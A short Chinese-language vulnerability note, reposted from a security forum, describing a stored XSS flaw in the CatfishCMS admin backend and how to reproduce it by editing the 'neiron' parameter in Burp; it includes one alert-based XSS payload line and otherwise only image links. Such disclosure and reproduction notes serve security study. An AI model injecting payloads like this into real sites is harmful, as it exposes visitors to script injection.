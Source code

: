 # CatfishCMS后台储存型xss

> 原文：[https://www.zhihuifly.com/t/topic/2836](https://www.zhihuifly.com/t/topic/2836)

# CatfishCMS后台储存型xss

## 一、漏洞简介

网站背景中的管理员可以发布包含存储XSS漏洞的文章 提交标题以抓取数据包 使用burp修改参数 浏览文章可以触发XSS

## 二、漏洞影响

## 三、复现过程

![image](img/4e9aeab11c061a75227b586ba13ce1fb.png)

```
neiron=<img src=x onerror=alert(123)> 
```

![image](img/f27f8e552fcc0947552d7cc6c877ea3d.png)

![image](img/7ce226c7ea2d4a25fc85ea6af103898c.png)